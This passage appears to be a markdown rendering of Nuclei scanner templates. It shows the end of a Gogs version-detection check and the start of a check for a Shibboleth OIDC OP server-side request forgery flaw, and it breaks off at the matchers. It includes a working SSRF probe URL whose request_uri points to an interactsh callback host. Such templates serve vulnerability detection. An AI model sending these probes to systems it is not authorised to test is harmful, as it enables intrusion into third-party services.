 - part - body
- regex
  1. \<div class="ui left">\n\s+© \d{4} Gogs Version: ([\d.]+) Page:

**Type - dsl**

- dsl
  1. compare_versions(version, '\< 0.12.5')

**Type - status**

- status
  1. 200

### Extractors

**Type - regex**

- name - version
- internal - True
- group - 1
- regex
  1. \<div class="ui left">\n\s+© \d{4} Gogs Version: ([\d.]+) Page:

**Type - regex**

- group - 1
- regex
  1. \<div class="ui left">\n\s+© \d{4} Gogs Version: ([\d.]+) Page:

---

# Shibboleth OIDC OP \<3.0.4 - Server-Side Request Forgery

## Description

- The Shibboleth Identity Provider OIDC OP plugin before 3.0.4 is vulnerable to server-side request forgery (SSRF) due to insufficient restriction of the request_uri parameter, which allows attackers to interact with arbitrary third-party HTTP services.
- severity - high
- tags - cve,cve2022,ssrf,oidc,shibboleth

## Requests

- Method - GET

### URL

- {{BaseURL}}/idp/profile/oidc/authorize?client_id=demo_rp&request_uri=https://{{interactsh-url}}

### Matchers

**Type - word**
